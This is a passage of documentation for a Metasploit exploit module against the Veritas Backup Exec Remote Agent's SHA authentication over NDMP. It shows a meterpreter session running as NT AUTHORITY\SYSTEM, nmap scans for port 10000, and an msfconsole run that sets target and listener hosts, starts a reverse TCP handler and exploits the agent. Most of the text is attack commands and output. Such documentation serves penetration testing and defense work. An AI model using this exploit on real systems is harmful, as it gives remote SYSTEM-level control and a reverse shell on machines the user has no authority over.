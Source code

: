 ```
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

## Options

### INTERPRETER
The command line interpreter for executing Linux OS command. By default, the option is
`/bin/bash`. For Windows the option does not matter and the command will always be
executed using `C:\Windows\System32\cmd.exe`.

## Scenarios

The Backup Exec Remote Agent is installed on each host that has local filesystems
that should be backed up. These agents listen on the network for NDMP connections
(10000/tcp), appearing in Nmap scans with scripts enabled as follows:

```
$ nmap -p10000 -n 172.16.180.0/24 --open -vvv
...
Discovered open port 10000/tcp on 172.16.180.133
Discovered open port 10000/tcp on 172.16.180.132
Discovered open port 10000/tcp on 172.16.180.141
...
$ nmap -p10000 -n -sV 172.16.180.133
...
10000/tcp open  ndmp    Symantec/Veritas Backup Exec ndmp (NDMPv3)
...
```

(Note that the `ndmp-version` script fails to execute due to not sending an
`NDMP_CONNECT_OPEN` request before querying version information with the
`NDMP_CONFIG_GET_HOST_INFO` request. This exploit module's `check` command will
carry this query out successfully.)

### Windows; Backup Exec 21.0 (Backup Exec Remote Agent, revision 9.3)
```
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set rhosts 192.168.123.147
rhosts => 192.168.123.147
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.123.147:10000 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.123.147:10000 - Checking vulnerability
[*] 192.168.123.147:10000 - Connecting to BE Agent service
[*] 192.168.123.147:10000 - Getting supported authentication types
[*] 192.168.123.147:10000 - Supported authentication by BE agent: BEWS2 (190), SHA (5), SSPI (4)
[*] 192.168.123.147:10000 - BE agent revision: 9.3
[+] 192.168.123.147:10000 - The target appears to be vulnerable. SHA authentication is enabled
[*] 192.168.123.147:10000 - Exploiting ...
[*] 192.168.123.147:10000 - Connecting to BE Agent service
[*] 192.168.123.147:10000 - Enabling TLS for NDMP connection
```